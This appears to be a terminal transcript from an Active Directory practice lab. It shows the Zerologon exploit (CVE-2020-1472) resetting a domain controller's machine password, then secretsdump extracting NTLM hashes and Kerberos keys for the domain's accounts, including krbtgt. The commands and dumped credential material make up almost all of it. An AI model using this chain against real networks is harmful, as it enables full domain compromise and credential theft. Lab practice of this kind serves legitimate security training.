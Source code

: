 Tests whether a domain controller is vulnerable to the Zerologon attack. Resets the DC account password to an empty string when vulnerable.  
Note: dc-name should be the (NetBIOS) computer name of the domain controller.  
                                                                                                                                                                  
┌──(kali㉿kali)-\[\~/goAD-lab/adPEAS/adPEAS/CVE-2020-1472\]  
└─$ python3 cve-2020-1472-exploit.py WINTERFELL 192.168.20.11  
Performing authentication attempts...

Target vulnerable, changing account password to empty string

Result: 0

Exploit complete\!

┌──(impacket)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ secretsdump.py WINTERFELL$@192.168.20.11  
/home/kali/.venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.13.0.dev0+20250813.95021.3e63dae \- Copyright Fortra, LLC and its affiliated companies 

\[-\] RemoteOperations failed: \[Errno Connection error (WINTERFELL192.168.20.11:445)\] \[Errno \-2\] Name or service not known  
\[\*\] Cleaning up...   
                                                                                                                                                                  
┌──(impacket)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ secretsdump.py WINTERFELL\\$@192.168.20.11  
/home/kali/.venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.13.0.dev0+20250813.95021.3e63dae \- Copyright Fortra, LLC and its affiliated companies 

Password:  
\[-\] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 \- rpc\_s\_access\_denied   
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)  
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8ee4574a2323989e64eb21418a2e69ae:::  
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::  
cloudbase-init:1001:aad3b435b51404eeaad3b435b51404ee:d2232f12b7ddb5e8fa39d37b6ee86ad3:::  
arya.stark:1111:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::  
eddard.stark:1112:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::  
catelyn.stark:1113:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::  
robb.stark:1114:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::  
sansa.stark:1115:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::  
brandon.stark:1116:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::  
rickon.stark:1117:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::  
hodor:1118:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::  
jon.snow:1119:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::  
samwell.tarly:1120:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::  
jeor.mormont:1121:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::  
sql\_svc:1122:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::  
WINTERFELL$:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:e2760f0bbc8b223411a90b31ab42a326:::  
SEVENKINGDOMS$:1106:aad3b435b51404eeaad3b435b51404ee:afcbbdf34c3eb936725b964134bedf68:::  
\[\*\] Kerberos keys grabbed  
Administrator:aes256-cts-hmac-sha1-96:ec9ad6fa2d84fd4515a8636116b93a79f970b01b938e701263a18346d57c8d18  
Administrator:aes128-cts-hmac-sha1-96:628fa331fbcbe93204b40b881a94ae12  
Administrator:des-cbc-md5:6bb9c8e083bfb6ea  
krbtgt:aes256-cts-hmac-sha1-96:0296f1379c4a14fa41d3599a91c6e1b05bc7e4b8e7ba37264c9aa7da79e47b3c  
krbtgt:aes128-cts-hmac-sha1-96:ff81ffbcb2d022b8edc8a572f3b132f7  
